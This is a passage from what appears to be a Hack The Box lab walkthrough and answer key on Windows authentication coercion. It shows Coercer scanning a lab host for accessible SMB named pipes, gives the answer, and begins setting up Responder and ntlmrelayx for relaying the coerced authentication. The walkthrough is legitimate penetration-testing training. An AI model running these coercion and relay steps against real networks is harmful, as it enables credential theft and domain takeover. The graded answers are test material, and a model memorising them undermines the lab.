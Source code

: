 ```shell-session
htb-student@ubuntu:~$ Coercer scan -t 172.16.117.60 -u 'dummyUser' -p 'dummyPassword'
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4-blackhat-edition
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting scan mode
[info] Scanning target 172.16.117.60
<SNIP>
```

Right after students have started `Coercer` in `scan` mode, after a few seconds, SMB-named pipes will be discovered and marked as `accessible`.

```shell-session
<SNIP>
[info] Scanning target 172.16.117.60
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
```

Answer: `\PIPE\lsarpc`

## Authentication Coercion

### Question 2

#### "Use Coercer in 'coerce' mode against 172.16.117.60 and submit the name of the first RPC call resulting in the message '\[+] (ERROR\_BAD\_NETPATH)' for the SMB named pipe '\PIPE\lsass'."

Students will reuse the previously established SSH session. They will change their current working directory to `tools/Responder`:

Code: shell

```shell
cd tools/Responder
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ 
```

They will have to turn off the SMB Server and HTTP Server, usually started by `Responder` by altering the configuration in the `Responder.conf` file located in the same directory. This is done to allow the relayed authentication to go to `ntlmrelayx`:

Code: shell
